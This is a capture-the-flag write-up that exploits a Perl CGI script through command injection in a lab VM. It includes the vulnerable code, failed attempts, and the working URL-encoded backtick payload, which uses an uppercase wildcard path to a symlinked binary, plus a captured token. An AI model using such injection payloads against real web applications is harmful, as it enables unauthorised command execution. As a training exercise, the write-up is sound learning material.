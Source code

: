 # Here is a perl script

```bash
cat level12.pl
```

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; # lowercase to uppercase
  $xx =~ s/\s.*//; # delete space ? 
  @output = `egrep "^$xx" /tmp/xd 2>&1`; # HERE, we can exec cmd cuz of ``
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

# We can verify the connexion

curl -I 192.168.XX.XX:4646

```bash
HTTP/1.1 200 OK
Date: Wed, 06 Nov 2024 15:45:43 GMT
Server: Apache/2.2.22 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html
```
- the `` mean that we can execute parameter but there is a substitution before

- We have to send in "x" parameter a cmd to exec, but it will transform it on uppercase (we dont want that)

- Lets try with env variable ? 
```bash 
export CMD="getflag > /tmp/coucou && chmod 777 /tmp/coucou"
curl 192.168.56.104:4646?x=`$CMD`
```

- Doesnt work because the env is for level12 and flag12 doesnt have permissions access

# If the file has a unique name, we can find it and execute it thanks to a wildcard

- example: 
```bash
ln -s /bin/getflag /tmp/TOTO/GETFLAG
/*/TOTO/GETFLAG
```

- We have to redirect it to a file

```bash
echo coucou > /tmp/COUCOU
curl 192.168.56.104:4646?x=;/*/GETFLAG > /*/COUCOU;
```

- Doesnt work...

- lets watch Apache: 

```bash
tail var/log/apache2/error.log
```

- Lets try : curl 192.168.56.104:4646?x=`/*/TOTO/GETFLAG>&2`
or curl 192.168.56.104:4646?x=`/*/TOTO/GETFLAG>&2`

- doesnt work... 

- WE DONT HAVE TO PUT SPACE

- We have to redirect on the stderr to have the answer on apache2 error.log

- It takes & as a second arg, so we have to encode it : https://www.urlencoder.org/

```bash
curl '192.168.56.104:4646?x=`%2F%2A%2FTOTO%2FGETFLAG%3E%262`'
```

- then : 
```bash
tail /var/log/apache2/error.log
```

# Token: 
g1qKMiRpXf53AWhDaU7FEkczr